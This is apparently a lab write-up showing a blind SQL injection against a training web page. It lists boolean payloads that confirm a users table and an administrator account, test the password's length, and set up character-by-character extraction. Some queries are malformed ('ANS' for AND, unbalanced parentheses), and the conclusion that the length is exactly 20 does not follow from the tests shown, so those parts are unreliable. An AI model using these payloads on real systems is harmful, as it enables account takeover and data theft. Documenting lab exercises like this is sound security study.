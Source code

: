 Now we are going to conduct a Blind SQL Injection Attack on a vulnerable webpage

![image](https://user-images.githubusercontent.com/65653010/235386592-49967108-55ce-4e60-bf02-e6fb9af5ccb3.png)

To confirm that the parameter is vulnerable to blind SQL Injection we perform the query:

SELECT tracking-id FROM tracking-table WHERE trackingid='UooqxXf9ASLn57ZY' AND 1=1--

![image](https://user-images.githubusercontent.com/65653010/235389559-58017cb4-d22b-4ac7-a9c7-11644004bd09.png)

As the query is true, we find the response as 'Welcome back' Message

Now we give a false query

SELECT tracking-id FROM tracking-table WHERE trackingid='UooqxXf9ASLn57ZY' AND 1=2--

![image](https://user-images.githubusercontent.com/65653010/235389602-a3ea3098-1c54-4d12-b61c-cb47cc641b54.png)

As the query is false, we did not get a 'Welcome back' message

Now we verify thet there is a users table 

![image](https://user-images.githubusercontent.com/65653010/235390075-b07a747d-2db0-4433-9dc3-d56c3692593b.png)

As the response is a 'Welcome back' message, the users table is present and confirmed

Now let us confirm that username administrator exists users table

![image](https://user-images.githubusercontent.com/65653010/235391224-db855638-7ce5-4db1-b9e8-ec6f97adcd05.png)

Now we have confirmed it

Now we determine the length of the password by giving query

SELECT tracking-id FROM tracking-table WHERE TrackingId='UooqxXf9ASLn57ZY' ANS (SELECT USERNAME FROM USERS WHERE USERNAME='administrator' AND LENGTH(password)>1='a'--'

![image](https://user-images.githubusercontent.com/65653010/235393882-1be72594-e74e-4d40-9a30-0e20ddd0c9fd.png)

As it shows a 'Welcome Back' message it shows that the password length is greater than 1

Now if we perform the query

SELECT tracking-id FROM tracking-table WHERE TrackingId='UooqxXf9ASLn57ZY' ANS (SELECT USERNAME FROM USERS WHERE USERNAME='administrator' AND LENGTH(password)>20='a'--'

![image](https://user-images.githubusercontent.com/65653010/235394052-0d8741e2-73d7-471a-9169-e71e31a54fc3.png)

The response shows no 'Welcome Back' message, the password length is exactly 20

Now we determine the password by checking each character with each position.

![image](https://user-images.githubusercontent.com/65653010/235406926-92f62818-b7eb-40cd-978e-96c421c8c1da.png)
